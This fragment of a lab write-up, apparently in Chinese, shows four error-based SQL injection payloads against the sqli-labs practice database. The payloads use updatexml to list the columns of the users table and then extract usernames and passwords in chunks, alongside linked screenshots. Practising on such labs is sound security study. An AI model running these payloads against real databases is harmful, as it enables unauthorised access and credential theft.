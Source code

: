 ![image-20220115140219835](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115140219835.png)

```
') and updatexml('1',concat('~',(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),'~'),'1')#
```

![image-20220115140450620](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115140450620.png)

```
') and updatexml('1',concat(0x3e,(select group_concat(username,0x7e,password) from users),0x3e),'1') #
```

得到：

![image-20220115141236143](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115141236143.png)

```
') and updatexml('1',concat(0x3e,(select substr(group_concat(username,0x7e,password),30) from users),0x3e),'1') #
```

![image-20220115141519591](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115141519591.png)

```
') and updatexml('1',concat(0x3e,(select substr(group_concat(username,0x7e,password),52) from users),0x3e),'1') #
```

![image-20220115141659421](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115141659421.png)

......




